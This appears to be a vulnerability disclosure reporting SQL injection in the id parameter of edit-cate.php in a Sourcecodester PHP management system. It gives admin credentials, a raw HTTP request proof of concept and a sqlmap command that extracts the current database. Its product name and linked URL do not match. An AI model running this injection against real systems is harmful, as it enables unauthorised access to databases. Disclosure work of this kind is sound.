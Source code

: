 ### SQL injection vulnerability exists in Sourcecodester House Rental Management System

official website:https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

version:v1.0

route:/index.php?page=edit-cate&id=1

related code file:edit-cate.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the edit-cate.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240523215401439](SourceCodester_House_Rental_Management_System_Sql_Inject-4.assets/image-20240523215401439.png)

#### 2.Vulnerability verification and exploit

After mayuri.infospace@gmail.com/rootadmin logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.

```
GET /index.php?page=edit-cate&id=1 HTTP/1.1
Host: 10.15.6.184:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ob0bdimnlspngt0ldq4p4s4ed0
Connection: close


```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240523215259707](SourceCodester_House_Rental_Management_System_Sql_Inject-4.assets/image-20240523215259707.png)

